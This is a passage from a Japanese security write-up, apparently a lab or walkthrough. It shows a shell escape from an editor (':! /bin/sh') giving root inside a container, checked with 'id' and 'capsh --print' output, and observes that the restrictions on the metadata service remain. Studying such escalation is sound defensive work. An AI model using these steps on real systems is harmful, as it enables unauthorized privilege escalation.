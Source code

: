 ```
~
~
~
~
~
~
~
~
~
~
:! /bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
```

</div>

　末尾の「`id`」コマンドを実行しており、出力が「`uid=0(root) gid=0(root) groups=0(root)`」となっていることから、root権限が取得できていることが確認できます。

#### ケイパビリティを確認 (root ユーザ)

　再度「`capsh`」コマンドでケイパビリティを確認し、root権限になっているかを確認します。  

<div class="md-code" style="width:100%">

```
capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: UNCERTAIN (0)
```

</div>

　ここで重要なのは**コンテナ内でのみroot権限**を取得したということです。まだメタデータサービスにアクセスできない等、制限は設けられています。

